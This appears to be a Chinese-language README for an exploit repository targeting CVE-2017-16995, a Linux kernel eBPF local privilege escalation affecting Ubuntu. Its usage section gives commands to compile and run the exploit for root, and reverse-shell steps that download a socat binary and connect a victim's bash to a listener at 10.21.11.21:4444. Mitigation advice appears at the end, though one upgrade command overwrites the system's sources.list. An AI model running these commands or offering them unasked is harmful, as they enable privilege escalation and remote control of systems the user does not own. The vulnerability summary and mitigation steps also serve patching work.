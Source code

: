 # CVE-2017-16995
Ubuntu是一个以桌面应用为主的开源GNU/Linux操作系统，基于Debian GNU/Linux 。近期有白帽子爆出 ubuntu 的最新版本（Ubuntu 16.04）存在本地提权漏洞，漏洞编号为CVE-2017-16995。该漏洞存在于调用eBPF bpf(2)的Linux内核系统中，当用户提供恶意BPF程序使eBPF验证器模块产生计算错误，导致任意内存读写问题， 低权限用户可使用此漏洞获得管理权限。

## 影响
```
Linux Kernel Version 4.14-4.4 
仅影响Ubuntu/Debian发行版本
```

## 用法
在交互式shell下可以直接使用如下命令提权：
```sh
gcc upstream.c -o pwn
./pwn
```
若显示参数错误，可以尝试使用交互式shell：
+ 攻击者监听：
```sh
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
chmod +x /tmp/socat
/tmp/socat file:`tty`,raw,echo=0 tcp-listen:4444
```
+ 受害者反弹shell：
```sh
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.21.11.21:4444
```

## 解决方案
1. 临时解决方案：`echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled`
2. 升级内核版本：ubuntu 117 及以上的无此漏洞:
```sh
echo "deb http://archive.ubuntu.com/ubuntu/ xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list
apt update
apt install linux-image-4.4.0-117-generic  
```

## 参考

* [http://cyseclabs.com/exploits/upstream44.c](http://cyseclabs.com/exploits/upstream44.c)  
* [https://access.redhat.com/security/cve/cve-2017-16995](https://access.redhat.com/security/cve/cve-2017-16995)  
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1454&desc=3](https://bugs.chromium.org/p/project-zero/issues/detail?id=1454&desc=3)  
* [http://www.freebuf.com/news/165608.html](http://www.freebuf.com/news/165608.html)  
* [jso502](https://github.com/jas502n/Ubuntu-0day)